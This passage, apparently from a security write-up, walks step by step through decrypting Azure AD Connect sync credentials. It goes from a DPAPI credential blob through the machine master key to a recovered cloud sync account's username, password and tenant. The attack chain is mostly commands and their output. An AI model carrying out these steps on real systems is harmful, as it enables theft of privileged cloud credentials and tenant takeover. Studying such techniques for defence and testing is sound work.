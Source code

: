 ```powershell
  TargetName     : LegacyGeneric:target=Microsoft_AzureADConnect_KeySet_{C6492384-EF9D-4B30-BED9-F0737B43C269}_100000
  UnkData        : (null)
  Comment        : (null)
  TargetAlias    : (null)
  UserName       : ADSync
  CredentialBlob : 01 00 00 00 d0 8c 9d df ...

```

The credential blob contains the ADSync keyset but requires the system key (`a21ccc11-c5ba-449d-bb59-2bb97486cb71`) to decrypt, blobinfo from dpapilab-ng displayed it nicely:


```powershell
$ python3 analyze_credential_blob.py --hex "01 00 00 00 d0 8c 9d df ..."
DPAPI BLOB
        version      = 1
        provider     = df9d8cd0-1501-11d1-8c7a-00c04fc297eb
        mkey         = a21ccc11-c5ba-449d-bb59-2bb97486cb71
        flags        = 0x4
        descr        = b'MMS_ENCRYPTION_KEYSET_{C6492384-EF9D-4B30-BED9-F0737B43C269}_100000\x00'
        cipherAlgo   = AES-256 [0x6610]
        hashAlgo     = sha512 [0x800e]
        salt         = 19f018bca315ed5e7b1e7d1ec36ebfa19070d571316ff18a94f40c5b89d1a108
        hmac         = 8f9a8e5dc87830814c24416e93818c1698049ac45eb102407d3440dc4b481d8d
        cipher       = 5027299107129ff4ecc07c0462307b213504cb774da98047e4...
        sign         = 470e617fcc2c7ef9b47827578d878ac4bd7b3...
```


This `a21ccc11-c5ba-449d-bb59-2bb97486cb71` corresponds with one of the keys in the `C:\Windows\system32\microsoft\protect\S-1-5-18\` directory.
Using the system key, the masterkey could be decrypted:

```powershell
$ python3 ~/dpapilab-ng/mkdecs.py --system output/SYSTEM --security output/SECURITY output/syskeys/a21ccc11-c5ba-449d-bb59-2bb97486cb71

[!] Working on MK GUID a21ccc11-c5ba-449d-bb59-2bb97486cb71
-------------
[+] MASTER KEY UNLOCKED!
[+] KEY: b9e409f222fa04e6e25e73591...
[+] SHA1: bf1c5cb976e38cb415619bf3f0467061ffe10b94

```

Finally, the credential blob could be decrypted with the masterkey and the decryption algorithm used in adconnectdump which I've combined into a single file to skip the initial steps of the script:

```powershell
$ python3 auto_decrypt_credentials.py --credential-blob "01 00 00 00 ... d0 8c 9d df ..." --masterkey b9e409f222fa04e6e25e735...

...

--- RECORD 1 ---

--- Found Credentials ---
  AdminUpn  : syncuser@******.onmicrosoft.com
  Password  : A98DAD3CC0055C718CCC7850319EB5D164C4915D6C1B1F79D88375D0FDAB6019
  TenantId  : 07******-****-****-****-**********06
  Username  : {8876484e-7f2d-4d34-a890-6a2ed53c9ee4}@******.onmicrosoft.com
-------------------------

--- RECORD 2 ---

--- Found Credentials ---
```